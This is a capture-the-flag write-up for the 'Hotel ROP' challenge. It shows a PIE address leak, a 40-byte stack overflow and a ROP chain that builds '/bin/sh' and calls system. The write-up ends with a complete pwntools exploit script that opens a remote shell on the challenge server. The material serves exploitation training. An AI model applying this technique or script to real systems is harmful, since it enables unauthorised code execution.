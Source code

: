 # Hotel ROP

In this challenge we are given a binary, `hotel_rop` and a link to a server running this binary.

Running the file, we get the following output:
```
$ ./hotel_rop
Welcome to Hotel ROP, on main street 0x5617508ca36d
You come here often?
a
I think you should come here more often.
```

Running this multiple times, the number after "main street" keeps changing every time, but always ends with `36d`.
As it always starts with `0x55` or `0x56`, I can assume that this is an address in the program itself and not the stack or heap or libc.

Opening `hotel_rop` in Radare2 and seeking to `main`, I find immediately that `main` is at an offset of `0x136d`, so this address should be our `main` in the current program.

Checking the security of the binary, I saw that it is a PIE, but without a stack canary. Thus, it's a candidate for buffer overflows and ROP.

To find the offset for overflowing the buffer I just kept running `perl -e 'print "\x41"x40;'` with different multipliers until I got a segmentation fault. The correct offset is 40 bytes.

Looking at `california` (offset `0x11dc`) and `silicon_valley` (offset `0x1283`) in Radare2, I notice that they write something to various offsets of some memory address called `win_land` in byte increments. Looking more closely, in `california`  those bytes are /, b, i and n, and in `silicon_valley` are /, s and h. As there is also a counter called `len` in the stack used for storing offsets, calling `california` then `silicon_valley` writes first `/bin`, then `/sh` to successive bytes in `win_land`, thus getting you the string `/bin/sh` to call `system("/bin/sh")` on.
![California](california.png)
![Silicon Valley](silicon_valley.png)


Well, that was easy.

Looking at the disassembly of the function `loss` in Radare2, I see that towards the end it runs `system(win_land)` if you pass a few complicated tests on the arguments to the function:
![Loss function](loss.png)

However, you can skip all these complicated tests and go right to the `lea rdi, obj.win_land` instruction at `0x11c3`, which puts `win_land` into the `rdi` register and calls `system()` with that as the argument.


So, the plan is: get the base address of `main` from the first line, calculate the offsets of `california`, `silicon_valley` and `loss`, and use this address to make a rop chain running those in order. Here is the code:

```python
from pwn import *

p = remote('dctf1-chall-hotel-rop.westeurope.azurecontainer.io', 7480)

main_offset = 0x136d
california_offset = 0x11dc
silicon_valley_offset = 0x1283
system_offset = 0x11c3

p.recvuntil("street")
base = int(p.recvline().strip(), 16) - main_offset

california = p64(base + california_offset)
silicon_valley = p64(base + silicon_valley_offset)
system = p64(base + system_offset)

p.recvuntil("often?\n")
p.sendline((b'\x00'*40) + california + silicon_valley + system)
p.interactive()
```

This pops a shell, and the flag is at `flag.txt`.


*As a side note, if you fill the 40 junk bytes before your ROP chain with anything but zeroes, the program says "I think you should come here more often.", and if you fill it with zeroes, the program says "Oh! You are already a regular visitor!"*
